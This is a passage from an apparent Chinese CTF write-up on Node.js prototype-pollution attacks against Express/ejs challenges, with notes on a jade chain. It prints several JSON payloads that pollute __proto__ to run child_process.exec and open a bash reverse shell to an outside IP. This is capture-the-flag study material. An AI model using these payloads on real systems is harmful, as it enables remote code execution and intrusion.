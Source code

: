 ![](https://i.loli.net/2021/09/07/59lL4meZIfpxs7H.png)

payload:

```json
{"__proto__":{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/119.3.217.40/6666 0>&1\"')"}}}
```

还是反弹shell



## 341 ejs rce

> 下载源码会发现api.js没了

发现一个很好用的工具[Snyk](https://support.snyk.io/hc/en-us/articles/360003812538-Install-the-Snyk-CLI)，像这种源码包可以丢给他直接检测![](https://i.loli.net/2021/09/07/pt4VBHiGWsvkyqZ.png)

可以看到检测到一个ejs模板引擎的原型链污染RCE：
[XNUCA2019 Hardjs题解 从原型链污染到RCE - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/6113)
[几个node模板引擎的原型链污染分析 | L0nm4r (lonmar.cn)](https://lonmar.cn/2021/02/22/几个node模板引擎的原型链污染分析/#gallery-10)
网上的exp：

```json
{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/xxx/6666 0>&1\"');var __tmp2"}}

{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require(\'child_process\').exec(\'hhh\');var __tmp2"}}
```

这里修改一下，还是像340，两层污染：

```json
{"__proto__":{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/119.3.217.40/6666 0>&1\"');var __tmp2"}}}
```

![](https://i.loli.net/2021/09/07/pvqmhELNiFczb7G.png)

然后随便访问一个页面就能触发rce

![](https://i.loli.net/2021/09/07/T6Sh5BisDN8F3ap.png)

flag在根目录下
![](https://i.loli.net/2021/09/07/NM3kY1iypc6wnQK.png)

## 342 、343 jade原型链污染

> Hint：审计了1个小时发现的，此链目前网上未公开，难度稍大

jade原型链污染：[再探 JavaScript 原型链污染到 RCE - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/7025)
本题和上文链接稍有不同，是群主当时发现的未公开链子，当然现在这么久也已经公开了
